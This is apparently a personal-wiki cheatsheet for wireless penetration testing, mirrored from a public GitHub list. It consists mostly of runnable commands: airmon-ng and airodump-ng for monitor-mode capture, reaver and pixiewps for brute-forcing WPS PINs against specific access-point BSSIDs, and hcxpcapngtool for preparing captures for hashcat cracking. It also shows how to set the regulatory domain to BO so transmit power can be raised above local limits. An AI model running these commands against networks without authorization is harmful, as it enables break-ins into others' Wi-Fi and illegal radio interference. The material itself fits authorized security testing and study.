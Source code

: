Updated Mirror from [GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt); Rogue Access Point Testing:
```bash
# ifconfig wlan0 down
# iw reg set BO
# iwconfig wlan0 txpower 0
# ifconfig wlan0 up
# airmon-ng start wlan0
# airodump-ng --write capture mon0

ifconfig wlan1 down
iw reg set BO
ifconfig wlan1 up
iwconfig wlan1 channel 13
iwconfig wlan1 txpower 30
iwconfig wlan1 rate 11M auto
```

[Kali Tools: Reaver](https://www.kali.org/tools/reaver/) - *"Use the monitor mode interface (`-i mon0`) to attack the access point (`-b E0:3F:49:6A:57:78`), displaying verbose output (`-v`):*
```bash
airmon-ng start wlan0
airodump-ng wlan0
reaver -i mon0 -b 8D:AE:9D:65:1F:B2 -vv
reaver -i mon0 -b 8D:AE:9D:65:1F:B2 -S --no-nacks -d7 -vv -c 1
```

[GitHub wiire-a/pixiewps - Pixie WPS](https://github.com/wiire-a/pixiewps) *"An offline Wi-Fi Protected Setup brute-force utility"*
```bash
airmon-ng check
airmon-ng start wlan0
airodump-ng wlan0mon --wps
reaver -i wlan0mon -c 11 -b 00:00:00:00:00:00 -K 1
```

## Alternatives to `airX-ng`

[cyberark](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick) recommends cracking [[WiFi]] with `hcxpcapngtool` that uses `hashcat` see: [[Hashcat-Cheatsheet]]
```bash
hcxpcapngtool -o $file.hash $file.pcapng
```

## Techniques

[GitHub OlivierLaflamme/Cheatsheet-God - Cheatsheet_WirelessTesting.txt](https://github.com/OlivierLaflamme/Cheatsheet-God/blob/master/Cheatsheet_WirelessTesting.txt) references and thanks [uceka.com - wireless-penetration-testing-cheat-sheet/](https://uceka.com/2014/05/12/wireless-penetration-testing-cheat-sheet/); This just updated mirrored markdown version

Wireless Antenna 
```bash
Open the Monitor Mode
ifconfig wlan0mon down
iwconfig wlan0mon mode monitor
ifconfig wlan0mon up
Increase Wi-Fi TX Power
iw reg set B0
iwconfig wlan0 txpower <NmW|NdBm|off|auto>
#txpower is 30 (generally)
#txpower is depends your country, please googling
iwconfig
Change WiFi Channel
```